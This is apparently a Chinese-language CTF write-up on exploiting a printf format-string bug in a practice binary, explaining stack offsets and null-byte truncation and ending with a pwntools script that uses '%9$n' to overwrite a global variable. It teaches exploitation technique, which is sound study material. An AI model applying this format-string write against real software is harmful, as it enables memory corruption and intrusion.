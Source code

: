 ![image-20220329165151398](Self-help_Clown.assets/image-20220329165151398.png)

`aaaaaaaa`真实输入相当于printf的第9个参数, 也就是说我们如果输入num的地址也就在这, 然后`%n`要作用于该地址, 所以需要填`%8$n`, 这样就会往num写入

按照常理应该这样写payload

```python
payload = p64(num_addr) + "%8$n"
```

然后就会往num写入8(p64打印8字节)

但是有个严重的问题,就是printf是'\x00'截断打印的,遇到'\x00'就停止了,num_addr由于不满8字节,所以p64会自动添加'\x00',这就导致后面的东西根本不会被解析,在p64(num_addr)处就结束了,这不是我们想要的,解决方法就是将p64(num_addr)后移一个栈帧,这时候地址就是printf的第10个参数了,%8$n要改为%9$n,同时要将%9$n那个栈帧给填满8个字节("%9$n"才4个字节,要填充4个字节,要不num_addr就会出现偏差,%n就识别不来),这时候写入num为0(因为%n前面没有任何打印)

![image-20220330221913912](Self-help_Clown.assets/image-20220330221913912.png)

#### Exploit

```py
from pwn import* 
o=process('./format_writein')
num = 0x601064
payload = '%9$naaaa' + p64(num)
o.sendline(payload)
o.sendline('0')
o.interactive()
```
